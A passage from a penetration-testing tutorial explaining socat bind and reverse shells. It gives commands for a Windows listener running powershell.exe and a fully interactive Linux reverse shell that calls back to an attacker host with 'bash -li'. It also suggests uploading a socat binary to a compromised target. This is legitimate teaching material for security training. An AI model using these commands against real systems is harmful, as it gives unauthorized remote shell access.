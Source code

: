 On a Windows target we would use this command for our listener:
```bash
socat TCP-L:<PORT> EXEC:powershell.exe,pipes
```

We use the "pipes" argument to interface between the Unix and Windows ways of handling input and output in a CLI environment.

Regardless of the target, we use this command on our attacking machine to connect to the waiting listener.
```bash
socat TCP:<TARGET-IP>:<TARGET-PORT> -
```

Now let's take a look at one of the more powerful uses for Socat: a fully stable Linux tty reverse shell. This will only work when the target is Linux, but is significantly more stable. As mentioned earlier, socat is an incredibly versatile tool; however, the following technique is perhaps one of its most useful applications. Here is the new listener syntax:
```bash
socat TCP-L:<port> FILE:`tty`,raw,echo=0
```

Let's break this command down into its two parts. As usual, we're connecting two points together. In this case those points are a listening port, and a file. Specifically, we are passing in the current TTY as a file and setting the echo to be zero. This is approximately equivalent to using the Ctrl + Z, ```stty raw -echo; fg``` trick with a netcat shell -- with the added bonus of being immediately stable and hooking into a full tty.

The first listener can be connected to with any payload; however, this special listener must be activated with a very specific socat command. This means that the target must have socat installed. Most machines do not have socat installed by default, however, it's possible to upload a precompiled socat binary , which can then be executed as normal.

The special command is as follows:
```bash
socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

This is a handful, so let's break it down.

The first part is easy -- we're linking up with the listener running on our own machine. The second part of the command creates an interactive bash session with ```EXEC:"bash -li"```. We're also passing the arguments: pty, stderr, sigint, setsid and sane:
* **pty**, allocates a pseudoterminal on the target -- part of the stabilisation process
* **stderr**, makes sure that any error messages get shown in the shell (often a problem with non-interactive shells)
* **sigint**, passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell
* **setsid**, creates the process in a new session
* **sane**, stabilises the terminal, attempting to "normalise" it.

That's a lot to take in, so let's see it in action.

As normal, on the left we have a listener running on our local attacking machine, on the right we have a simulation of a compromised target, running with a non-interactive shell. Using the non-interactive netcat shell, we execute the special socat command, and receive a fully interactive bash shell on the socat listener to the left:
